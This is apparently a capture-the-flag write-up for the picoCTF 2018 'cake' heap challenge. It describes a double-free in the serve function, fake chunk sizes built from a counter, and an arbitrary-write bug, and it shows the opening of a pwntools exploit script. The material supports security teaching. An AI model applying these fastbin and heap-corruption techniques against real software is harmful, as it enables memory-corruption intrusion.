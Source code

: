 ### Bug Hunting

There are mainly three bugs/features that I used for my exploit.
- As we know that we can `serve` (free) cakes to customers based on their index. Here lies our first bug. Binary doesnt check if a cake is already served or not. It just checks whether provided `index` is less than or equal to total number of `cake`s created and max number of cakes should be less than 16.  (*allows us to do fastbin attack*)
- `counter` can be used to created fake `size` of heap chunk which can be used to return address on .bss from malloc.
- There is a subtle bug in `make` function. If you look carefully at the IDA code snippet below. If we can somehow overwrite value at `*(&shop->sold + i + 2LL)` in between `name` overwrite and `price` overwrite, we can get arbitrary write. Confused? It should get more clearer in exploitation section :)  
```
void __fastcall make(s_shop *shop)
{
...
      printf("Made cake %d.\nName> ", (unsigned int)i);
      fgets_eat((char *)(*(&shop->sold + i + 2LL) + 8), 8);
      printf("Price> ");
      v1 = (__int64 *)*(&shop->sold + i + 2LL);
      *v1 = get();
...
}
```  

### Exploitation  

So here I will explain my exploit script in pieces because I find this approach more easy to explain how exploitation works and it also connects techniques specified in write up with exploitation script at the same time.  

```python
from pwn import *
import re,sys

def make(name, price):
    r.sendlineafter("> ", "M")
    r.sendlineafter("Name> ", name)
    r.sendlineafter("Price> ", str(price))

def wait_c():
    r.sendlineafter("> ", "W")

def serve(index):
    r.sendlineafter("> ", "S")
    r.sendlineafter("> ", str(index))

def inspect(index):
    r.sendlineafter("> ", "I")
    r.sendlineafter("> ", str(index))

libc = ELF('./libc.so.6')
#r = process(['./ubuntu-xenial-amd64-libc6-ld-2.23.so', './cake'], env={"LD_PRELOAD":"./libc.so.6"})
r = remote("2018shell1.picoctf.com", 42542)
```
